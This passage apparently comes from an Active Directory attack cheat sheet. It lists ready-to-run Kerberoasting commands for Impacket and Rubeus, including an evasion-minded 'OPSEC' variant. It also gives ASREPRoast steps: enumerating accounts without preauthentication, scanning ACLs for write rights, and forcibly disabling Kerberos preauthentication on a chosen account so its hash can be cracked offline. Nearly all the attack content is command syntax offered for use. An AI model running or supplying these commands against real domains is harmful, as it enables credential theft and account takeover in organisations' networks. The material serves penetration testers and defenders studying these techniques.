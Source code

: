     ⧉ Copied!
    
- Impacket:
    
    ```powershell
    python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
    ```
    
    ⧉ Copied!
    
- Rubeus:
    
    ```powershell
    #Kerberoasting and outputing on a file with a spesific format
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
    
    #Kerberoasting whle being "OPSEC" safe, essentially while not try to roast AES enabled accounts
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /rc4opsec
    
    #Kerberoast AES enabled accounts
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /aes
    
    #Kerberoast spesific user account
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /user:<username> /simple
    
    #Kerberoast by specifying the authentication credentials
    Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName> /creduser:<username> /credpassword:<password>
    ```
    
    ⧉ Copied!
    

### ASREPRoast

*WUT IS DIS?:*
If a domain user account do not require kerberos preauthentication, we can request a valid TGT for this account without even having domain credentials, extract the encrypted
blob and bruteforce it offline.

- PowerView: `Get-DomainUser -PreauthNotRequired -Verbose`
- AD Module: `Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth`

Forcefully Disable Kerberos Preauth on an account i have Write Permissions or more!
Check for interesting permissions on accounts:

**Hint:** We add a filter e.g. RDPUsers to get "User Accounts" not Machine Accounts, because Machine Account hashes are not crackable!

PowerView:

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```
